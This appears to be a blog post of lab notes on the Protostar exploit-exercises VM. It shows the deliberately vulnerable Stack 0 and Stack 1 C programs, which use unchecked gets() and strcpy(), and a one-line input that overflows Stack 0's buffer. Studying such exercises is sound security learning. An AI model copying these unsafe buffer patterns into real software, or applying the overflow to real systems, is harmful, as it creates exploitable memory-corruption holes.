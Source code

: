 ```yaml
---
layout: post
title: Protostar Notes
---
```


This is my notes for the Nebula VM.

https://exploit-exercises.com/protostar/

## Stack 0

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

```bash
user@protostar:/opt/protostar/bin$ python -c 'print ("A" * 65)' | ./stack0
you have changed the 'modified' variable
```

## Stack 1

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```